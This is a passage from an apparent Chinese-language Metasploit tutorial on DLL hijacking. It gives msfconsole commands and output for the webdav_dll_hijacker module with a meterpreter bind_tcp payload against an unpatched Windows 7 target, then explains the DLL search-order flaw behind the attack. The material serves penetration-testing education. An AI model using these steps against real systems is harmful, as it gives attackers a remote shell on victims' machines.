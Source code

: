 ```
让我们分析一下 DLL 注入的实际实现。在这个例子中，我们的目标机器是一个未打补丁的 Windows 7 Ultimate 机器。该过程通过创建一个链接来共享文件，目标将不得不访问并执行该文件。随着我们的进展，你将理解这个过程。

1.  我们将使用`exploit/windows/browser/webdav_dll_hijacker`模块作为利用，`windows/meterpreter/bind_tcp`作为有效载荷。让我们快速设置利用和有效载荷以及其他所需的参数：

```
    msf > use exploit/windows/browser/webdav_dll_hijacker
    msf exploit(webdav_dll_hijacker) > set payload windows/meterpreter/bind_tcp
    payload => windows/meterpreter/bind_tcp
    msf exploit(webdav_dll_hijacker) > show options
    Module options (exploit/windows/browser/webdav_dll_hijacker):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    BASENAME policy yes The base name for the listed
    EXTENSIONS txt yes The list of extensions
    SHARENAME documents yes The name of the top-level
    SRVHOST 0.0.0.0 yes The local host...
    SRVPORT 80 yes The daemon port to listen
    SSLCert no Path to a custom SSL..
    URIPATH / yes The URI to use
    Payload options (windows/meterpreter/bind_tcp):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    EXITFUNC process yes Exit technique: seh..
    LPORT 4444 yes The listen port
    RHOST 192.168.56.102 no The target address
    Exploit target:
    Id Name
    -- ----
    0 Automatic 
    ```

利用的各种参数将有助于创建特定文件和顶层共享。`BASENAME`参数包含要创建的文件的名称。`EXTENSIONS`是要创建的文件类型。`SHARENAME`是将为访问而创建的顶级共享目录。`SRVHOST`是本地监听端口，`SRVPORT`是`SRVHOST`将在其上监听连接的端口号。

1.  一旦设置了利用和有效载荷的各个参数，下一步就是执行利用。让我们看看当我们执行它时会发生什么：

```
    msf exploit(webdav_dll_hijacker) > exploit
    [*] Exploit running as background job.
    [*] Started bind handler
    [*]
    [*] Exploit links are now available at
    \\192.168.56.101\documents\ 
    ```

1.  一旦利用成功执行，它就开始监听连接，并提供一个共享链接，目标将不得不打开该链接以触发利用。让我们切换到目标屏幕看看会发生什么：![如何操作...](img/7423_03_01.jpg)

目标将查看一个简单的文件`policy.txt`，这个文件是攻击者共享的。这个文件是完全无害的。一旦用户执行了这个文件，就会与攻击者的机器建立连接，并建立 shell 连接。一旦文件在目标上执行，DLL 将执行，你将在你的`msfconsole`屏幕上看到大量的活动。一旦 DLL 注入成功，我们将有 shell 连接（见下图）：

![如何操作...](img/7423_03_02.jpg)

## 它是如何工作的...

让我们挖掘一下这个漏洞的原因。**动态链接库(DLL)**是微软在 Windows 上实现的共享库概念。DLL 是在运行时与程序相关联的可执行文件，用于加载与其链接的共享库。当应用程序运行时，`loadlibrary()`函数在运行时加载所需的 DLL。如果未指定要加载的 DLL 的位置，或者应用程序提供了不够合格的库路径，Windows 将使用其自己定义的顺序来搜索它。在这个默认顺序中的一个位置是当前工作目录。

现在，当目标用户访问共享位置时，它会到达一个受攻击者控制的区域。如何做到的呢？共享文件（`policy.txt`）包含了一个较低限定路径的 DLL，因此当目标用户执行它时，Windows 会开始搜索缺失的 DLL。现在，由于当前工作目录（`/documents`）受攻击者控制，他/她可以在其中添加一个恶意 DLL 代码，Windows 将执行它（因为当前工作目录是 Windows 寻找库文件的默认位置之一）。现在这个恶意 DLL 可以赋予攻击者执行外部脚本的权限。因此，有效载荷现在开始生效，并建立一个 shell 连接，为攻击者提供对目标系统的完全访问权限。这就是整个攻击向量是如何设计的。

```